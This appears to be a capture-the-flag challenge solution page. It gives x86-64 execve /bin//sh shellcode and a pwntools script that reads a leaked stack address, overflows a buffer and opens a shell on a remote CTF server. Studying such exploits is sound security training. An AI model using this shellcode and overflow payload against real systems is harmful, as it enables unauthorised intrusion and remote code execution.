 #### Goals
 * Get the flag

#### Solution
```asm
global _start
	_start:
		xor rdi, rdi
		xor rsi, rsi
		xor rdx, rdx
		xor rax, rax
		push rax
		; 68 73 2f 2f 6e 69 62 2f
		mov rbx, 68732f2f6e69622fH
		push rbx
		mov rdi, rsp
		mov al, 59
		syscall
```
```python
#!/usr/bin/env python

from pwn import *

#Io = process("./shellcode")
Io = remote("123.207.114.37", 30001)

Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

junk = "A" * 24
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
shellcode_addr = p64(addr + len(junk) + 8)
payload = junk + shellcode_addr + shellcode

Io.send(payload)

Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

